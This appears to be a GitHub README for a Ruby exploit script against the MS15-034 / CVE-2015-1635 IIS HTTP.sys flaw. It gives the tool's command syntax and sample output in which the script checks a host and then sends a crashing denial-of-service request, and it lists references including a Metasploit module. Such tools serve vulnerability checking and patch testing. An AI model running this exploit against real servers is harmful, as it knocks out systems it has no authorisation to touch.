

# CVE-2015-1635 | MS15-034 | IIS HTTP.sys 
HTTP.sys in Microsoft Windows 7 SP1, Windows Server 2008 R2 SP1, Windows 8, Windows 8.1, and Windows Server 2012 Gold and R2 allows remote attackers to execute arbitrary code via crafted HTTP requests, aka "HTTP.sys Remote Code Execution Vulnerability."

# Usage

**Exploit**
```
ruby cve-2015-1635_exploit.rb <TARGET> [check|exploit] [PORT] [PATH]
```

## PoC

```
-> ruby cve-2015-1635_exploit.rb 172.16.16.142
[*] IIS version: Microsoft-IIS/8.5
[*] Server message: Requested Range Not Satisfiable
[*] Server code: 416
[+] Server is vulnerable!
[-] You can use 'exploit' switch to crash the target

-> ruby cve-2015-1635_exploit.rb 172.16.16.142 exploit
[+] Host is vulnerable!
[+] Sending DoS request...
```



# References
- http://pastebin.com/ypURDPc4
- http://www.securitysift.com/an-analysis-of-ms15-034/
- https://technet.microsoft.com/en-us/library/security/ms15-034.aspx
- http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
- https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/ms15_034_ulonglongadd.rb

